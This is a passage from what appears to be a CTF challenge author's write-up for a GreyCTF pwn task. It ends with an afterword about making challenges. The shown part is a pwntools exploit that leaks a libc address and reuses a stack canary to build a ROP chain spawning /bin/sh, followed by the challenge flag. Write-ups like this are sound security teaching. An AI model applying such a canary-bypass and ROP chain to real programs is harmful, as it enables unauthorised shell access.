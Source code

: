 ```py
# leak libc addr
show()
p.recvuntil(b"Slot #7")
p.recvuntil(b"   | ")

leak = u64(p.recvline().strip().ljust(8,b'\x00'))
print(f"{hex(leak) = }")

offset = 0x21ace0

libc.address = leak - offset
print(f"{hex(libc.address) = }")

# build payload
rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x38: p64(canary) + p64(0) + rop.chain()})

# send payload
p.sendline()
p.sendlineafter(b">>", "4")
p.sendlineafter(b":", "1")
p.sendlineafter(b":", payload)

p.clean()
p.interactive()
```

Flag: `grey{y0u_4r3_50rc3r3r_supr3m3_m45t3r_0f_th3_myst1c_4rts_mBRt!y4vz5ea@uq}`

## Afterword

I felt that making (and solving) the pwn challenges was quite interesting for me, and I hope that while my challenges this time round were not meant to be hard, it at least provided some kind of fun to anyone that attempted them :)

We are constantly looking out for new challenge ideas so please look forward to our next GreyCTF (if it happens). Either way, I will keep making challenges here and there for CTFs and play CTFs whenever I'm free, so I look forward to meeting everyone again one way or another.

I will cover the intended solutions for Greycat's Adventure in the next post.